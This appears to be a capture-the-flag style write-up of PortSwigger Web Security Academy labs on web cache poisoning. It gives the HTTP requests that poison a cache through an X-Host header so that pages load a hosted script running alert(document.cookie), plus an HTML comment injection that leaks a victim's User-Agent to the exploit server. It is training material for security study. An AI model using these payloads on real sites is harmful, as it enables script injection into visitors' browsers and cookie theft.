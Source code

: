 Issue Activity -> Web cache poisoning -> **X-Host** header

```
GET /?cb=123 HTTP/1.1
...
X-Host: test

In response:
       <script type="text/javascript" src="//test/resources/js/tracking.js"></script>
```

**Exploit Server ->**

```
File:
	/resources/js/tracking.js
Body:
	alert(document.cookie)
```

```
GET / HTTP/1.1
...
X-Host: exploit-aca71f7a1e5618f4c083175201fb001e.web-security-academy.net
```

This way is not working. "Vary: User Agent" is the key. We need to identify user's User Agent.

```
GET /post?postId=8 HTTP/1.1

In response:
Comment:
HTML is allowed

Post this as comment:
<img src="https://exploit-aca71f7a1e5618f4c083175201fb001e.web-security-academy.net/foo"></img>
```

**Exploit Server -> Access Log**

`"GET /foo HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36"`

**Solution:**

```
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
X-Host: exploit-aca71f7a1e5618f4c083175201fb001e.web-security-academy.net
```

### Lab: Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

This lab contains a DOM-based vulnerability that can be exploited as part of a web cache poisoning attack. A user visits the home page roughly once a minute. Note that the cache used by this lab has stricter criteria for deciding which responses are cacheable, so you will need to study the cache behavior closely.
